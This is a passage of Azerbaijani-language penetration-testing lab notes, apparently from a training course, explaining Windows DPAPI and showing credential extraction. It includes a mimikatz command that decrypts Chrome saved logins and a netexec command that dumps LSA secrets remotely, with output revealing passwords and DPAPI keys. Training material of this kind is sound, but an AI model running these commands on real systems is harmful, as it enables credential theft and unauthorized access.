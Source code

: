 ### DPAPI

DCC2 heşlərinə əlavə olaraq, biz əvvəllər `hklm\security`-dən **DPAPI** üçün **maşın və istifadəçi açarlarının** da *dump* edildiyini gördük. **Data Protection Application Programming Interface** və ya **DPAPI**, Windows əməliyyat sistemlərində istifadəçi əsasında məlumat *blob*-larını şifrələmək və deşifrə etmək üçün istifadə olunan bir sıra API-lərdir. Bu *blob*-lar müxtəlif Windows OS xüsusiyyətləri və üçüncü tərəf tətbiqləri tərəfindən istifadə olunur. Aşağıda DPAPI istifadə edən tətbiqlərin və onların DPAPI-dən necə istifadə etdiklərinin yalnız bir neçə nümunəsi verilmişdir:

| Tətbiqlər | DPAPI-dən İstifadəsi |
| :--- | :--- |
| **Internet Explorer** | Şifrə formunun avtomatik tamamlanma məlumatları (yadda saxlanmış saytlar üçün istifadəçi adı və şifrə). |
| **Google Chrome** | Şifrə formunun avtomatik tamamlanma məlumatları (yadda saxlanmış saytlar üçün istifadəçi adı və şifrə). |
| **Outlook** | E-poçt hesabları üçün şifrələr. |
| **Remote Desktop Connection** | Uzaq maşınlara qoşulmaq üçün yadda saxlanmış etimadnamələr. |
| **Credential Manager** | Paylaşılan resurslara, Simsiz şəbəkələrə qoşulmaq, VPN-lərə və daha çoxuna daxil olmaq üçün yadda saxlanmış etimadnamələr. |

DPAPI ilə şifrələnmiş etimadnamələr Impacket-in **`dpapi`**, **`mimikatz`** və ya uzaqdan **`DonPAPI`** kimi alətlərlə əl ilə deşifrə edilə bilər.

```
C:\Users\Public> mimikatz.exe
mimikatz # dpapi::chrome /in:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Login Data" /unprotect
> Yerli vəziyyət faylında şifrələnmiş açar tapıldı
> Şifrələnmiş açar DPAPI tərəfindən qorunur
 * CryptUnprotectData API istifadə olunur
> AES Açar: efefdb353f36e6a9b7a7552cc421393daf867ac28d544e4f6f157e0a698e343c

URL     : http://10.10.14.94/ ( http://10.10.14.94/login.html )
İstifadəçi adı: bob
 * AES-256-GCM ilə BCrypt istifadə olunur
Şifrə: April2025!
```

### Uzaqdan *Dumping* və LSA Sirləri Mülahizələri

**Yerli administrator imtiyazlarına** malik etimadnamələrə girişlə, **LSA sirlərini** şəbəkə üzərindən hədəf almaq da mümkündür. Bu, bizə işləyən xidmətlərdən, planlaşdırılmış tapşırıqlardan və ya şifrələri LSA sirləri istifadə edərək saxlayan tətbiqlərdən etimadnamələri çıxarmağa imkan verə bilər.

#### LSA Sirlərini Uzaqdan Çıxarmaq

```bash
nijatmansimov@htb[/htb]$ netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
SMB         10.129.42.198   445    WS01     [*] Windows 10.0 Build 18362 x64 (name:FRONTDESK01) (domain:FRONTDESK01) (signing:False) (SMBv1:False)
SMB         10.129.42.198   445    WS01     [+] WS01\bob:HTB_@cademy_stdnt!(Pwn3d!)
SMB         10.129.42.198   445    WS01     [+] LSA sirləri çıxarılır
SMB         10.129.42.198   445    WS01     WS01\worker:Hello123
SMB         10.129.42.198   445    WS01      dpapi_machinekey:0xc03a4a9b2c045e545543f3dcb9c181bb17d6bdce
dpapi_userkey:0x50b9fa0fd79452150111357308748f7ca101944a
SMB         10.129.42.198   445    WS01     NL$KM:e4fe184b25468118bf23f5a32ae836976ba492b3a432deb3911746b8ec63c451a70c1826e9145aa2f3421b98ed0cbd9a0c1a1befacb376c590fa7b56ca1b488b
SMB         10.129.42.198   445    WS01     [+] 3 LSA siri /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.secrets və /home/bob/.cme/logs/FRONTDESK01_10.129.42.198_2022-02-07_155623.cached fayllarına çıxarıldı
```
